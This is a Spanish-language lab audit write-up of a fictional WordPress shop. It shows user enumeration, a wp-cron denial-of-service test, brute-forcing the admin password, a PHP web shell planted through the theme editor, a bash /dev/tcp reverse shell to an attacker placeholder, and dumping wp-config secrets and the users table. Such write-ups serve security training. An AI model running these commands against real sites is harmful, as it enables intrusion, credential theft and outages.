









# 🌐 WordPress (puerto 80)

⬅ [PixelForge](../pixelforge/README.md) · [README principal](../../README.md)

**Estado:** ✅ auditoría completada — 7 hallazgos, compromiso total del servidor confirmado ([ver tabla](../../README.md#-hallazgos-confirmados) · [writeups individuales](../../writeups/))

Tienda/escuela de surf ficticia, "Salt & Stoke Surf Co.".

## Reconocimiento

Accediendo directamente por IP (`172.17.0.2`) se sirve el vhost **por defecto** de Apache (instalación WordPress genérica, "Hello world!") — el sitio real solo aparece enviando `Host: bigshop.local`, confirmando virtual-hosting:

```bash
echo "172.17.0.2  bigshop.local" | sudo tee -a /etc/hosts
```



Reconocimiento manual de las rutas críticas de WordPress, antes de automatizar:

| Ruta | Resultado |
|---|---|
| `/wp-json/wp/v2/users` | Lista usuarios sin autenticación |
| `/xmlrpc.php` | Habilitado — acepta `POST` |
| `/wp-cron.php` | Accesible, se ejecuta en cada visita |

WPScan confirma y amplía el reconocimiento manual (output completo en [`scans/wpscan-bigshop-puerto80.txt`](../../scans/wpscan-bigshop-puerto80.txt)):

```bash
wpscan --url http://bigshop.local -e vp,vt,u --random-user-agent
```

WordPress 7.1.4 (última versión), tema **Twenty Twenty-One** al día (sin CVEs), plugin **`booking-calendar-pro` v2.4.1** con un XSS reflejado conocido vía `calendar_id` ([CVE-2024-12077](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-12077)), registro de usuarios abierto, y 29 usuarios enumerados.

> **Sobre el plugin vulnerable:** investigado, el código afectado vive en `includes/views/Reservations.php` — una vista de `wp-admin`, no una página pública. Requiere que la víctima ya tenga sesión de admin/editor, lo que lo hace de poco valor una vez que ya se compromete la cuenta admin por otra vía (ver 3️⃣ más abajo). Descartado sin explotar, sin PoC público disponible para confirmarlo igualmente.

## Cronología de la auditoría

<details open>
<summary><b>1️⃣ Enumeración masiva de usuarios sin autenticación (29 cuentas)</b></summary>

<br>

Combinando la API REST y el generador RSS (confirmado con `wpscan -e u`), se identificaron **29 cuentas reales**, incluida `admin`:



```
admin, Jack Osei, Luna De La Cruz, William Ferro, Harper Lemos, Amelia Santos,
James Moreau, Charlotte King, Ethan Walsh, ava-thompson, charlotte-king,
emma-castillo, ethan-walsh, harper-lemos, isabella-dubois, jack-osei,
james-moreau, kelly-rincon, liam-okafor, lucas-fischer, luna-delacruz,
mateo-silva, mia-nakamura, noah-bennett, oliver-reyes, sofia-marino, william-ferro
```

Diccionario completo de usuarios válidos sin adivinar ni uno — incluida la cuenta `admin`, el objetivo de mayor valor.

</details>

<details>
<summary><b>2️⃣ Denegación de servicio parcial vía wp-cron.php</b></summary>

<br>

`wp-cron.php` se ejecuta en **cada visita**, no en segundo plano. Primera prueba, sin efecto perceptible:

```bash
ab -n 5000 -c 50 -k http://bigshop.local/wp-cron.php
```

Segunda prueba, con mayor intensidad — avance notablemente más lento, interrumpida manualmente tras 12.000 de 20.000 peticiones:

```bash
ab -n 20000 -c 300 -k http://bigshop.local/wp-cron.php
```



No se confirmó caída total en las pruebas realizadas (nota de alcance: al interrumpirse con `Ctrl+C`, `ab` no imprimió estadísticas finales — la evidencia de impacto es cualitativa, no una cifra exacta), pero el patrón de ralentización progresiva (50→300 de concurrencia) indica un servicio expuesto a un ataque de disponibilidad escalable. No se escaló más allá de esta prueba: el mismo host aloja las otras 3 apps del laboratorio, incluida StreamWave, aún pendiente de auditar. Lab reiniciado tras la prueba.

</details>

<details>
<summary><b>3️⃣ Credenciales débiles (admin/qwerty) vía fuerza bruta</b></summary>

<br>

`wp-login.php` no tiene rate-limit real. Combinando el diccionario de usuarios del bloque 1️⃣ con `rockyou.txt`:

```bash
wpscan --url http://bigshop.local \
  --usernames admin \
  --passwords /usr/share/wordlists/rockyou.txt \
  --password-attack wp-login --max-threads 30
```

> **Nota:** el primer intento con `--password-attack xmlrpc-multicall` (para amplificar velocidad vía `xmlrpc.php`) **crashea** con `rockyou.txt` — bug conocido de WPScan 4.1.0, algunas líneas del diccionario no son UTF-8 válido y rompen la serialización XML-RPC. El modo `wp-login` clásico funciona sin problema.

```
[SUCCESS] - admin / qwerty
```



`qwerty` cayó casi de inmediato. Acceso confirmado al panel:



</details>

<details>
<summary><b>4️⃣ 🏆 RCE vía Theme File Editor → reverse shell</b></summary>

<br>

Con `admin`, **Appearance → Theme File Editor** permite editar directamente el PHP del tema activo, sin ninguna verificación extra. Payload en `wp-content/themes/twentytwentyone/404.php`:

```php
<?php if(isset($_GET['cmd'])){ echo "<pre>"; system($_GET['cmd']); echo "</pre>"; } ?>
```



Confirmación de RCE:

```bash
curl "http://bigshop.local/wp-content/themes/twentytwentyone/404.php?cmd=id"
# uid=997(bigshop) gid=997(bigshop) groups=997(bigshop)
```



Reverse shell completa (listener `nc -lvnp 4444` primero):

```bash
curl "http://bigshop.local/wp-content/themes/twentytwentyone/404.php" -G \
  --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<IP_ATACANTE>/4444 0>&1'"
```



Shell como `bigshop` (uid 997) — a diferencia de PenguinWave/PixelForge (`www-data`), este contenedor ejecuta WordPress bajo un usuario de sistema dedicado.

</details>

<details>
<summary><b>5️⃣ Secretos de BD y claves de autenticación en wp-config.php</b></summary>

<br>

```bash
cat /var/www/html/wp-config.php
```

Credenciales de BD triviales (`DB_USER`/`DB_PASSWORD` = `wordpress`/`wordpress`) y **las 8 claves/salts de autenticación completas** (`AUTH_KEY`, `SECURE_AUTH_KEY`, `LOGGED_IN_KEY`, `NONCE_KEY` + salts) — con ellas se pueden **forjar cookies de sesión válidas para cualquier usuario**, persistentes incluso tras rotar contraseñas.

Confirmación con acceso directo a MySQL local (`DB_HOST=127.0.0.1`):

```bash
mysql -h 127.0.0.1 -u wordpress -pwordpress wordpress \
  -e "select ID,user_login,user_pass,user_email from wp_users;"
```



**22 cuentas reales** con email, hash `$wp$2y$10$...` (bcrypt — WordPress 6.8+, mucho más robusto que el MD5 de PixelForge; no se intentó crackear, ya había acceso admin confirmado).

</details>

<details>
<summary><b>6️⃣ Grupo "workers" con /etc escribible (no explotado)</b></summary>

<br>

Enumerando vías de escalada de privilegios desde `bigshop`. **La idea en una frase:** en Linux, el permiso que decide si puedes borrar o sustituir un archivo no es el del archivo, sino el de la carpeta que lo contiene — y la carpeta de los archivos más sensibles del sistema (`/etc`) estaba abierta a un grupo que no debería tener acceso.

```bash
stat /etc
# Uid: (0/root)  Gid: (1000/workers)
# Access: (0775/drwxrwxr-x) — sin sticky bit
```

Piensa en `/etc` como un cajón de archivador y cada fichero (`passwd`, `sudoers`, `cron.d/*`) como una carpeta que dice "propiedad de root, no tocar" — esa etiqueta solo protege el *contenido*; para sacar la carpeta entera y meter una propia solo hace falta la llave del cajón, y aquí el grupo `workers` también la tiene. Falta la protección estándar para esto (el *sticky bit*, la misma razón por la que `/tmp` no deja borrar archivos ajenos): sin ella, cualquier miembro de `workers` podría borrar/recrear `/etc/passwd`, `/etc/sudoers` o `/etc/cron.d/*` aunque sean de `root` — vía directa a ejecución como root. Pero:

```bash
id
# uid=997(bigshop) gid=997(bigshop) groups=997(bigshop)
cat /etc/group | grep workers
# workers:x:1000:pepe
```

`bigshop` **no pertenece** a `workers` (solo `pepe`). Sin `sudo`, sin credenciales de `pepe`, no se encontró vía de pivote. **Documentado honestamente como hallazgo identificado pero no explotado** desde este punto de apoyo.

</details>

<details>
<summary><b>7️⃣ 🏆 Cadena completa: de fuerza bruta a compromiso total</b></summary>

<br>

A diferencia de PenguinWave/PixelForge, la cadena de WordPress es **lineal, sin rutas alternativas** — pero igual de completa en impacto:

```
enumeración (1️⃣) → fuerza bruta (3️⃣) → RCE (4️⃣) → secretos + PII (5️⃣) → escalada (6️⃣, no explotada)
```

**Un diccionario de contraseñas + una función legítima del panel (editor de archivos) = compromiso completo del servidor**, sin ningún CVE ni técnica de explotación avanzada. A diferencia de PixelForge, no se alcanzó `root` del sistema — la escalada quedó identificada pero no explotada, un resultado honesto que también forma parte del valor de la auditoría.

</details>

---

⬅ [README principal](../../README.md)
